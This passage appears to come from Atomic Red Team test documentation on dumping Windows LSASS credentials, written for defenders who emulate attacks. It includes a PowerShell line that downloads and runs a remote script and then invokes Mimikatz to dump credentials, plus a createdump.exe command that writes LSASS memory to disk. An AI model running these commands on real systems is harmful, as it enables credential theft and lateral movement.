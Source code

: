 
```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```






<br/>
<br/>

## Atomic Test #11 - Dump LSASS with createdump.exe from .Net v5
Use createdump executable from .NET to create an LSASS dump.

[Reference](https://twitter.com/bopin2020/status/1366400799199272960?s=20)

**Supported Platforms:** Windows


**auto_generated_guid:** 9d0072c8-7cca-45c4-bd14-f852cfa35cf0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
& "$exePath" -u -f $env:Temp\dotnet-lsass.dmp (Get-Process lsass).id
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\dotnet-lsass.dmp -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net v5 must be installed
##### Check Prereq Commands:
```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
if ($exePath -and (Test-Path $exePath)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.DesktopRuntime.5 --accept-source-agreements --accept-package-agreements --silent
```




<br/>
<br/>
